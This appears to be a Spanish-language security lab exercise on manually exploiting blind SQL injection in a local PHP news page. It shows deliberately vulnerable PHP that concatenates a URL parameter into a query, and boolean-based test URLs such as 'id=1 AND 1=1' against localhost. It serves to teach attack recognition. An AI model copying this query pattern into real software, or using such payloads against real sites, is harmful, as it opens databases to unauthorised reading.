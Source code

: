 # Ejercicio 5: Demostración Manual de Blind SQL Injection

## 🎯 Objetivo
Demostrar cómo explotar Blind SQL Injection de forma manual cuando la aplicación no muestra datos específicos, solo confirmación de existencia.

## 🔍 Análisis de la Vulnerabilidad Blind

### Código Vulnerable Actual:
```php
// En news.php línea ~18
$query = "SELECT id FROM blog WHERE id = " . $id;
$result = $pdo->query($query);

// BLIND: Solo confirmamos si existe al menos un resultado
if ($result && $result->rowCount() > 0) {
    $article_exists = true;
} else {
    $article_exists = false;
}
```

### Características del Blind SQLi:
- ✅ **Vulnerabilidad presente:** Concatenación directa sin escape
- ❌ **No muestra datos:** Solo respuesta booleana (existe/no existe)
- ❌ **No muestra errores SQL:** Errores genéricos solamente
- 🔍 **Extracción por inferencia:** Requiere técnicas especiales

## 🧪 Técnicas de Explotación Blind SQLi

### 1. Verificación de Vulnerabilidad
**URL:** `http://localhost/news.php?id=1`
**Resultado:** ✅ "Artículo Encontrado"

**URL:** `http://localhost/news.php?id=999`
**Resultado:** ❌ "Artículo No Encontrado"

**Confirmación:** La aplicación responde de forma diferente según la consulta.

---

### 2. Prueba Básica de Inyección Boolean-Based
**URL:** `http://localhost/news.php?id=1%20AND%201=1`
**URL sin codificar:** `http://localhost/news.php?id=1 AND 1=1`

**SQL Generada:**
```sql
SELECT id FROM blog WHERE id = 1 AND 1=1
```
**Resultado esperado:** ✅ "Artículo Encontrado" (1=1 siempre es verdadero)

---